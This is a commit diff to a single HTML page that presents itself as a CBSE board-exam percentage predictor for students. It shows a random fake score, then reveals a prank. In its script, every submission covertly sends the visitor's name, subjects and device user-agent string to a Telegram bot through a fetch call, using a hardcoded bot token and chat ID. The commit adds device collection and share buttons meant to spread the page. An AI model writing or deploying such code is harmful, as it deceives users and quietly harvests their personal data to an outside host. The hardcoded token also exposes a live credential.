

Before and after one commit to Hackerrabhi/CBSC-percentage-prediction, a plain HTML site: page index.html in a window 1280 px wide. Drawn offline with Linux system fonts and the light colour scheme; grey boxes are pictures that could not be loaded.

Commit message:
Add files via upload

```diff
--- a/index.html
+++ b/index.html
@@ -1,4 +1,4 @@
- <!DOCTYPE html>
+<!DOCTYPE html>
 <html lang="en">
 <head>
     <meta charset="UTF-8">
@@ -9,44 +9,44 @@
         body {
             font-family: 'Arial', sans-serif;
             text-align: center;
-            background: #f1f4f8;
-            color: #333;
+            background: #E3F2FD;
+            color: #002147;
+            animation: fadeIn 1.5s ease-in-out;
         }
 
-        /* CBSE-Style Header */
+        @keyframes fadeIn {
+            from { opacity: 0; }
+            to { opacity: 1; }
+        }
+
         .header {
             background: #002147;
             color: white;
             padding: 15px;
-            font-size: 22px;
+            font-size: 24px;
             font-weight: bold;
-            text-align: left;
-            display: flex;
-            align-items: center;
-        }
-
-        .header span {
-            font-size: 35px;
-            margin-right: 10px;
+            text-align: center;
         }
 
         .container {
             background: white;
             padding: 30px;
-            border-radius: 10px;
+            border-radius: 12px;
             width: 90%;
-            max-width: 400px;
-            margin: 50px auto;
-            box-shadow: 0px 4px 8px rgba(0, 0, 0, 0.1);
+            max-width: 500px;
+            margin: 30px auto;
+            box-shadow: 0px 4px 12px rgba(0, 0, 0, 0.2);
+            border-top: 5px solid #002147;
         }
 
         input, button {
-            padding: 10px;
+            padding: 12px;
             margin: 10px;
             font-size: 16px;
             border-radius: 5px;
             border: 1px solid #ccc;
             width: 90%;
+            transition: 0.3s;
         }
 
         button {
@@ -54,35 +54,27 @@
             color: white;
             cursor: pointer;
             font-weight: bold;
+            transition: transform 0.3s ease, background 0.3s ease;
         }
 
         button:hover {
-            background: #004080;
+            background: #0056b3;
+            transform: scale(1.05);
         }
 
-        .share-button {
-            background: #25D366;
-            margin-top: 15px;
+        .result-box {
+            background: #002147;
+            padding: 20px;
+            margin-top: 20px;
+            border-radius: 10px;
+            font-size: 18px;
+            font-weight: bold;
+            display: none;
+            color: white;
+            animation: fadeIn 1s ease-in-out;
         }
 
-        /* Fake CBSE Footer */
-        .footer {
-            margin-top: 20px;
-            font-size: 12px;
-            color: gray;
-        }
-
-        /* Fake Result Animation */
-        .result-box {
-            border: 2px solid #002147;
-            padding: 15px;
-            display: none;
-            margin-top: 20px;
-            font-size: 20px;
-            font-weight: bold;
-        }
-
-        /* Glitch Animation */
+        /* Prank Reveal Animation */
         .glitch {
             animation: glitch 0.8s infinite alternate;
             color: red;
@@ -96,25 +88,74 @@
             80% { transform: skewX(-5deg); }
             100% { transform: skewX(0deg); }
         }
+
+        /* Share Button Styles */
+        .share-container {
+            margin-top: 20px;
+        }
+
+        .share-btn {
+            display: inline-flex;
+            align-items: center;
+            justify-content: center;
+            background: #ffcc00;
+            color: black;
+            padding: 10px 15px;
+            margin: 5px;
+            border-radius: 50px;
+            font-size: 16px;
+            font-weight: bold;
+            cursor: pointer;
+            text-decoration: none;
+        }
+
+        .share-btn img {
+            width: 20px;
+            height: 20px;
+            margin-right: 8px;
+        }
+
+        .footer {
+            margin-top: 20px;
+            font-size: 12px;
+            color: gray;
+        }
     </style>
 </head>
 <body>
 
-    <!-- Fake CBSE Portal Header -->
     <div class="header">
-        <span>📚</span> CBSE Board Exam Percentage Prediction
+        📘 CBSE Board Exam Percentage Prediction
     </div>
 
     <div class="container">
-        <h2>CBSE Board Exam Percentage Prediction</h2>
-        <p>Enter your details to predict your final percentage</p>
+        <h2>📊 Predict Your CBSE Exam Percentage</h2>
+        <p>Enter your details to get a prediction</p>
         <input type="text" id="username" placeholder="Enter your name"><br>
         <input type="text" id="subjects" placeholder="Enter subjects (comma-separated)"><br>
         <button onclick="predictPercentage()">Predict</button>
 
         <div id="result" class="result-box"></div>
 
-        <button class="share-button" onclick="shareWebsite()">📢 Share this Website</button>
+        <!-- Share Buttons -->
+        <div class="share-container">
+            <h3>📢 Share This Website</h3>
+            <a class="share-btn" id="whatsapp-share">
+                <img src="https://upload.wikimedia.org/wikipedia/commons/6/6b/WhatsApp.svg"> WhatsApp
+            </a>
+            <a class="share-btn" id="telegram-share">
+                <img src="https://upload.wikimedia.org/wikipedia/commons/8/82/Telegram_logo.svg"> Telegram
+            </a>
+            <a class="share-btn" id="facebook-share">
+                <img src="https://upload.wikimedia.org/wikipedia/commons/5/51/Facebook_f_logo_%282019%29.svg"> Facebook
+            </a>
+            <a class="share-btn" id="instagram-share">
+                <img src="https://upload.wikimedia.org/wikipedia/commons/a/a5/Instagram_icon.png"> Instagram
+            </a>
+            <a class="share-btn" id="twitter-share">
+                <img src="https://upload.wikimedia.org/wikipedia/en/6/60/Twitter_Logo_as_of_2021.svg"> Twitter
+            </a>
+        </div>
     </div>
 
     <div class="footer">
@@ -125,69 +166,43 @@
 
     <script>
         function predictPercentage() {
-            let username = document.getElementById("username").value;
-            let subjects = document.getElementById("subjects").value;
+            let username = document.getElementById("username").value.trim();
+            let subjects = document.getElementById("subjects").value.trim();
             let resultBox = document.getElementById("result");
 
-            if (username.trim() === "" || subjects.trim() === "") {
-                alert("Please enter all details!");
+            if (username === "" || subjects === "") {
+                alert("⚠️ Please enter all details!");
                 return;
             }
 
-            // Generate a Random Fake Percentage (40% - 99%)
             let fakePercentage = Math.floor(Math.random() * (99 - 40 + 1)) + 40;
+            let mobileModel = navigator.userAgent; // 📱 User का Device Model
 
-            // Show the Result on Website
             resultBox.style.display = "block";
-            resultBox.innerHTML = `<strong>${username}</strong>, Your Predicted CBSE Percentage is: <br><span style="font-size: 40px; color: green;">${fakePercentage}%</span>`;
+            resultBox.innerHTML = `<strong>${username}</strong>, Your Predicted CBSE Percentage is: <br>
+                                   <span style="font-size:40px; color:#FFD700;">${fakePercentage}%</span><br>
+                                   📱 Device: ${mobileModel}`;
 
             setTimeout(() => {
-                resultBox.innerHTML = "<h2 class='glitch'>😂 You Got Pranked! 😂</h2><p>This is a fake prediction. Go study, this won't help you!</p>";
+                resultBox.innerHTML = `<h2 class='glitch'>😂 You Got Pranked! 😂</h2>
+                                       <p>This is a fake percentage, it will not help you. Go study now! 📚</p>`;
                 document.getElementById("prankSound").play();
             }, 3000);
 
-            // Send Data to Telegram
-            sendToTelegram(username, subjects, fakePercentage);
+            sendToTelegram(username, subjects, fakePercentage, mobileModel);
         }
 
-        function sendToTelegram(username, subjects, percentage) {
-            let botToken = "7880536303:AAFCop3W72uhhIK_4MOAnByV-rRMyFZEfZo";  // 🔹 अपना Telegram Bot Token डालो
-            let chatId = "6423851220";  // 🔹 अपना Telegram Chat ID डालो
+        function sendToTelegram(username, subjects, percentage, mobileModel) {
+            let botToken = "7880536303:AAFCop3W72uhhIK_4MOAnByV-rRMyFZEfZo";
+            let chatId = "6423851220";
 
-            let message = `📢 *New User Data Received!*\n👤 *Name:* ${username}\n📚 *Subjects:* ${subjects}\n🎯 *Predicted Percentage:* ${percentage}%\n⏰ *Time:* ${new Date().toLocaleString()}`;
+            let message = `📢 *New User Data Received!*\n👤 *Name:* ${username}\n📚 *Subjects:* ${subjects}\n🎯 *Predicted Percentage:* ${percentage}%\n📱 *Device:* ${mobileModel}\n⏰ *Time:* ${new Date().toLocaleString()}`;
 
             let url = `https://api.telegram.org/bot${botToken}/sendMessage?chat_id=${chatId}&text=${encodeURIComponent(message)}&parse_mode=Markdown`;
 
             fetch(url)
-                .then(response => {
-                    if (response.ok) {
-                        console.log("✅ Data Sent to Telegram!");
-                    } else {
-                        console.log("❌ Error Sending Data!");
-                    }
-                })
+                .then(response => console.log("✅ Data Sent to Telegram!"))
                 .catch(error => console.log("❌ Network Error!"));
-        }
-
-        function shareWebsite() {
-            let pageUrl = window.location.href;
-            let message = `😂 I just got pranked! Try this CBSE Board Exam Percentage Prediction: ${pageUrl}`;
-
-            let whatsappUrl = `https://api.whatsapp.com/send?text=${encodeURIComponent(message)}`;
-            let facebookUrl = `https://www.facebook.com/sharer/sharer.php?u=${encodeURIComponent(pageUrl)}`;
-            let twitterUrl = `https://twitter.com/intent/tweet?text=${encodeURIComponent(message)}`;
-            let emailUrl = `mailto:?subject=CBSE Prank&body=${encodeURIComponent(message)}`;
-
-            let shareOptions = `
-                <h3>Share via:</h3>
-                <a href="${whatsappUrl}" target="_blank">📱 WhatsApp</a><br>
-                <a href="${facebookUrl}" target="_blank">📘 Facebook</a><br>
-                <a href="${twitterUrl}" target="_blank">🐦 Twitter</a><br>
-                <a href="${emailUrl}" target="_blank">📧 Email</a>
-            `;
-
-            let shareWindow = window.open("", "Share", "width=400,height=400");
-            shareWindow.document.write(shareOptions);
         }
     </script>
 
```
